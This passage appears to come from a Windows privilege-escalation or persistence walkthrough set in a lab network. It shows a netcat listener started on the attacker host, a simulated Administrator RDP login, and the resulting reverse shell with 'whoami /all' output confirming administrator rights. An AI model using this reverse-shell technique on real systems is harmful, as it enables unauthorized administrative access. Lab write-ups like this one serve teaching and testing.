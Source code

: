 Start a listener on the attacker host and then simulate an Administrator login using RDP. After a while, we should receive a shell running as an administrator:

```shell
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.119.130] from (UNKNOWN) [192.168.119.129] 49898
Microsoft Windows [Version 10.0.22000.493]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name                     SID
============================= ============================================
desktop-bn\administrator S-1-5-21-264094270-2388996790-3434637240-500


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes                                         
============================================================= ================ ============ ===============================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group 
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Mandatory group, Enabled by default, Enabled group 
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Performance Log Users                                 Alias            S-1-5-32-559 Mandatory group, Enabled by default, Enabled group 
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group 
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group 
CONSOLE LOGON                                                 Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group 
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group 
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group 
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group 
LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group 
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group 
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288                                                    

<SNIP>
```

